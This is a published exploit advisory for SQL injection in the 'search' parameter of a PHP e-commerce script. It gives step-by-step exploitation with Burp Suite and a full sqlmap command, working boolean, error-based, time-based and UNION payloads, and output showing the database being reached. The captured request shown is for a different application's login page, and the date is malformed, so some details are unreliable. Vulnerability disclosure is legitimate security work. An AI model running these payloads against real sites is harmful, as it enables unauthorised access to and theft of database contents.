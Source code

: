 # Exploit Title: E-Commerce Website - SQL Injection
# Date: 2023-24-12
# Exploit Author: Hamdi Sevben
# Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
# Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
# Version: 1.0
# Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53

1. Description:
----------------------

E-Commerce Website 1.0 allows SQL Injection via parameter 'search' in "/Electricks/Electricks-shop/index_search.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.


2. Proof of Concept:
----------------------

Go to the Search Product textbox: "http://localhost/Electricks/Electricks-shop/index_search.php"
Fill Enter product name and search.
Intercept the request via Burp Suite and send to Repeater.
Copy and paste the request to a "r.txt" file.
Use sqlmap to exploit.

---

Captured Burp request:

POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass

---

In sqlmap, use 'search' parameter to dump the database. 

python sqlmap.py -r r.txt -p search --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db

---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: search=test' OR NOT 4831=4831-- wglp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=test' AND (SELECT 3794 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(3794=3794,1))),0x7162706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tgSG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 9664 FROM (SELECT(SLEEP(5)))rvAF)-- dHfN

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707a71,0x6f6e55424c5968486469704d474a566a75696b44596473587874685a79756d7378646a7942777564,0x7162706b71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:47:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:47:41] [INFO] fetching current database
current database: 'electricks'

current database: electricks

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/e2d64c21-ad38-4af7-977c-d140d0642a28)
